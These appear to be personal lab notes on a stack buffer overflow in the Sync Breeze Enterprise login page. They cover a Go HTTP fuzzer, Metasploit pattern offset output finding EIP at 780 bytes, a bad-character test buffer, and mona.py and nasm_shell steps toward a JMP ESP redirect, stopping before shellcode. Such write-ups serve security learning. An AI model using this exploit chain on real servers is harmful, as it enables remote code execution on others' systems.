






# Buffer Overflow Notes

## Introduction
Fuzzing is a reverse engineering technique used to find places in the code where unhandled input can be provided, leading to an application crash or other behavior which can be further exploited.

## HTTP Fuzzing - SyncBreeze

We open the Sync Breeze Enterprise server on our test machine and navigate to the Sync Breeze web portal:



We attempt to login using invalid credentials and capture the response in wireshark. We analyze the TCP stream and find our login request:




## First Fuzzer POC

The following Go program fuzzes the username parameter of the page by sending an increasingly large payload every iteration until it reaches 2000 bytes of lenght.

```
// SyncBreeze 'username' POST parameter fuzzer
// By disastrpc @ github.com/disastrpc

package fuzz

import (
	"fmt"
	"net/http"
	"net/url"
	"os"
	"strings"
	"time"
)

const target string = "http://192.168.138.10/login"

func er(err error) {
	if err != nil {
		panic(err)
	}
}

func main() {

	client := http.Client{
		Timeout: 5 * time.Second,
	}

	for S := 100; S < 2000; S += 100 {
		buf := strings.Repeat("A", S)
		fmt.Printf("Injecting buffer of %d bytes\n", S)
		form := url.Values{}
		form.Add("username", buf)
		form.Add("password", "test")

		req, err := http.NewRequest("POST", target, strings.NewReader(form.Encode()))
		er(err)
		req.PostForm = form
		req.Header.Add("Accept", "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8")
		req.Header.Add("content-Type", "application/x-www-form-urlencoded")
		req.Header.Add("Content-Length", string(len(buf)))
		resp, err := client.Do(req)

		if err != nil {
			fmt.Printf("Crash with buffer of %d bytes\n", len(buf))
			os.Exit(0)
		}
		defer req.Body.Close()

		fmt.Println(resp.Status)
		time.Sleep(time.Second * 1)
	}

}
```

Running the script crashes the application at around 800 bytes.

We can see that the EIP register was overwritten by our A characters:



## Ways to Control Registers

We know our payload overwrites the EIP register, however, we still don't know the exact location in our buffer where this overwrite occurs. 

One of the method we can use is binary tree analysis, where we recursively split the payload into different letters. We can then pinpoint the exact location depending on what letter overwrites the address.

Another (faster) method is to use a non-repeating sequence of bytes, with enough lenght to crash the application. 

## msf-pattern-create

Using this script developed by Metasploit, we can generate a pattern of a specified length:

```
disastrpc sync_breeze λ msf-pattern_create -l 800
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab
...
...
Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba
```

We can use that pattern as the buffer to our poc program:

```
buf := "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa...a0Ba1Ba2Ba3Ba4Ba5Ba"

form := url.Values{}
form.Add("username", buf)
form.Add("password", "test")`
```

After the program is executed the following string overwrites the EIP address:



The EIP register gets overwritten by the string "B0aB".

## msf-pattern_offset

The script *msf-pattern_offset* finds an offset in bytes where the query supplied can be found on the generated buffer. 
```
disastrpc poc λ msf-pattern_offset -q 42306142 -l 800                        
[*] Exact match at offset 780  
```

In this case the script found the bytes at EIP to be located at offset 780 in our buffer.

## Introducing Shellcode

Now that we control the EIP memory register, we can introduce shellcode which will perform whatever function we decide. Shellcode is a set of assembly instructions which normally execute reverse shells or other functions through our overflow.

In our particular case, the remaining buffer of C's is a good place to write the shellcode to, since we can easily access it after our EIP offset. But due to the size of this buffer being too small to hold any meaningful code, we are able to expand our available space by sending a larger payload, if the conditions of the crash don't change then we have successfully expanded our available memory.

## Bad Characters

Some applications and protocols contain restricted characters which hold special meaning, these characters will often cause issues and can't be included in our shellcode.

In order to find these characters we can send all possible hex characters. The following Python oneliner will generate all possible ASCII characters in Hex. 

```
>>> for i in range(0,256): print('\\x%02X' % i, end='') 
\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0A\x0B\x0C\x0D\x0E\x0F\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1A\x1B\x1C\x1D\x1E\x1F\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2A\x2B\x2C\x2D\x2E\x2F\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3A\x3B\x3C\x3D\x3E\x3F\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4A\x4B\x4C\x4D\x4E\x4F\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5A\x5B\x5C\x5D\x5E\x5F\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6A\x6B\x6C\x6D\x6E\x6F\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7A\x7B\x7C\x7D\x7E\x7F\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8A\x8B\x8C\x8D\x8E\x8F\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9A\x9B\x9C\x9D\x9E\x9F\xA0\xA1\xA2\xA3\xA4\xA5\xA6\xA7\xA8\xA9\xAA\xAB\xAC\xAD\xAE\xAF\xB0\xB1\xB2\xB3\xB4\xB5\xB6\xB7\xB8\xB9\xBA\xBB\xBC\xBD\xBE\xBF\xC0\xC1\xC2\xC3\xC4\xC5\xC6\xC7\xC8\xC9\xCA\xCB\xCC\xCD\xCE\xCF\xD0\xD1\xD2\xD3\xD4\xD5\xD6\xD7\xD8\xD9\xDA\xDB\xDC\xDD\xDE\xDF\xE0\xE1\xE2\xE3\xE4\xE5\xE6\xE7\xE8\xE9\xEA\xEB\xEC\xED\xEE\xEF\xF0\xF1\xF2\xF3\xF4\xF5\xF6\xF7\xF8\xF9\xFA\xFB\xFC\xFD\xFE\xFF
>>> 
```

Meaning our POC would look like this:

```
	var buf string

	buf += strings.Repeat("A", 780)
	buf += "lleh"
	buf += strings.Repeat("C", 4)

	buf += "\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0A\x0B\x0C\x0D\x0E\x0F\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1A\x1B\x1C\x1D\x1E\x1F\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2A\x2B\x2C\x2D\x2E\x2F\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3A\x3B\x3C\x3D\x3E\x3F\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4A\x4B\x4C\x4D\x4E\x4F\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5A\x5B\x5C\x5D\x5E\x5F\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6A\x6B\x6C\x6D\x6E\x6F\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7A\x7B\x7C\x7D\x7E\x7F\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8A\x8B\x8C\x8D\x8E\x8F\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9A\x9B\x9C\x9D\x9E\x9F\xA0\xA1\xA2\xA3\xA4\xA5\xA6\xA7\xA8\xA9\xAA\xAB\xAC\xAD\xAE\xAF\xB0\xB1\xB2\xB3\xB4\xB5\xB6\xB7\xB8\xB9\xBA\xBB\xBC\xBD\xBE\xBF\xC0\xC1\xC2\xC3\xC4\xC5\xC6\xC7\xC8\xC9\xCA\xCB\xCC\xCD\xCE\xCF\xD0\xD1\xD2\xD3\xD4\xD5\xD6\xD7\xD8\xD9\xDA\xDB\xDC\xDD\xDE\xDF\xE0\xE1\xE2\xE3\xE4\xE5\xE6\xE7\xE8\xE9\xEA\xEB\xEC\xED\xEE\xEF\xF0\xF1\xF2\xF3\xF4\xF5\xF6\xF7\xF8\xF9\xFA\xFB\xFC\xFD\xFE\xFF"

	form := url.Values{}
	form.Add("username", buf)
	form.Add("password", "test")
```


## JMP ESP

One reliable way of pointing the ESP register to our code is by leveraging a JMP ESP instruction already present in the code. But it must fulfill some criteria first:

- Must be static (No ASLR)
- Must not contain bad characters

## Mona.py

The Immunity script Mona.py will allow us to search the address space for a specific instruction, which in this case is JMP ESP.

Start the script by writing *!mona modules*, which will display all loaded modules for the attached program. We can see that the *syncbreeze.exe* has been compiled without any protection measures:



## Writing Instructions w/ NASM_Shell

We can use another tool by the Metasploit team called nasm_shell in order to generate assembly instructions in hexadecimal format.

```
disastrpc sync_breeze λ msf-nasm_shell 
nasm > jmp esp
00000000  FFE4              jmp esp
```


